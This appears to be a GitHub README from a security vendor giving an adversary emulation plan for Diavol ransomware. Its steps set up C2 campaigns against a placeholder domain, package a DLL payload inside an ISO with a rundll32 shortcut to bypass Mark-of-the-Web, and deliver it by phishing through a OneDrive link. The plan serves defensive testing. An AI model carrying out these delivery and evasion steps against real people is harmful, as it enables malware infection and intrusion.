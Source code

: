 # Diavol Ransomware - Adversary Emulation Plan

This threat is based on The DFIR Report post on December 13, 2021: https://thedfirreport.com/2021/12/13/diavol-ransomware/

This is a multi-stage threat that requires multiple SCYTHE campaigns for end-to-end execution. The initial access procedures leverage multiple defense evasion steps that would be wise to test in your enviornment.

## Automated Adversary Emulation with SCYTHE
### Diavol Stage 0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1, 2, 3, and 4 before execution
11. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
12. Put the SCYTHE DLL in the Folder2Iso of the working directory
13. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
14. Open a Windows command prompt and cd to the working directory
15. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
16. Zip the ISO and call it `new-documents-2005.zip`
17. Upload the zip file to Microsoft OneDrive and copy the link
18. Send a phishing email with the link to the Microsoft OneDrive zip file
19. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### Diavol Stage 1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/threats/Diavol

### Diavol Stage 2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/threats/Diavol
